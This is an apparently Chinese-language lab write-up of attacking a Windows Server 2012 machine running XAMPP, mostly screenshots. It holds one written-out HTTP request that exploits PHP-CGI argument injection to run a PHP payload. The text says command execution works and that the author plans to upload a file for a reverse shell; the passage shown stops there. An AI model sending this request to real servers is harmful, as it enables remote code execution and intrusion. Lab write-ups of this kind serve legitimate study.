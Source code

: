 **Windows Server 2016-AD-2016**  
  
![1747053790_6821ecde222d78479e1f4.png!small?1747053789967](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrDRttibW9XfWUd7Nia3q8oOXFUZhdWicH1gTZaZia17j5u5ians0FoRpibJqWfhF4uNs9Zv5GSCA24546Q/640?wx_fmt=jpeg&from=appmsg "")  
## 打靶  
### windows server 2012  
### 信息收集  
  
![1747053809_6821ecf16c257bbc3c9a9.png!small?1747053809254](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrDRttibW9XfWUd7Nia3q8oOXpt5X7FaiconuwsDeEbiaKQzUukBZE6LqBuKG6mdjRSyJQl37a9UtkCCg/640?wx_fmt=jpeg&from=appmsg "")  
### XAMPP 渗透拿shell  
  
打开网站80端口  
  
![1747053833_6821ed09c2d9b2f19ad6f.png!small?1747053833764](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrDRttibW9XfWUd7Nia3q8oOXAdgsMS7COnXhMJxsah6mibAic3ZVpOwL1IwZwsCaq1hwd9PJ9mfFo4pw/640?wx_fmt=jpeg&from=appmsg "")  
![1747053843_6821ed133ade163743e16.png!small?1747053843715](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrDRttibW9XfWUd7Nia3q8oOXsZTIqRVu39Y3DoG4l9c9qPvg97QzGK2IUicyqKkbGicxTwia5e8WfK7iag/640?wx_fmt=jpeg&from=appmsg "")  
  
[https://mp.weixin.qq.com/s/93TuxZ4AVqHXcnJw3M4hRg](https://mp.weixin.qq.com/s?__biz=MzkwMzMwODg2Mw==&mid=2247507195&idx=1&sn=74e9d776778045fb21fbb2d39b18c6d8&scene=21#wechat_redirect)  
  
```
```  
  
```
ounter(lineounter(lineounter(lineounter(lineounter(lineounter(lineounter(lineounter(lineounter(lineounter(lineounter(lineounter(lineounter(line
POST /php-cgi/php-cgi.exe?%add+cgi.force_redirect%3dXCANWIN+%add+allow_url_include%3don+%add+auto_prepend_file%3dphp%3a//input HTTP/1.1
Host: 192.168.139.128
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:135.0) Gecko/20100101 Firefox/135.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,/;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Content-Type: application/x-www-form-urlencoded
Content-Length: 23
<?php die("Te"."sT");?>

```  
  
  
发现可以成功执行命令，但是想要反弹shell没有办法只用get,所以我们得尝试写入文件  
  
查看phpinfo，发现当我们写入文件应该会放在\php\下  
  
![1747053873_6821ed3119dc55c849896.png!small?1747053873212](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrDRttibW9XfWUd7Nia3q8oOXQY42rymwic7QHqShH9aeNTZfZjGzhEiazoBIM8tXBRspLfhqsrjPyMCg/640?wx_fmt=jpeg&from=appmsg "")  
  
而经过chatgpt的搜索，可以知道网站的路径在/htdocs/下，所有我们得把文件上传到这  
  
![1747053884_6821ed3c81fd4414c20de.png!small?1747053885236](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrDRttibW9XfWUd7Nia3q8oOXVkP9Q3XX9IIzm95Ddiaxef1I2jANquJskAE3ccyENaa9a47JxkWtYGQ/640?wx_fmt=jpeg&from=appmsg "")  
  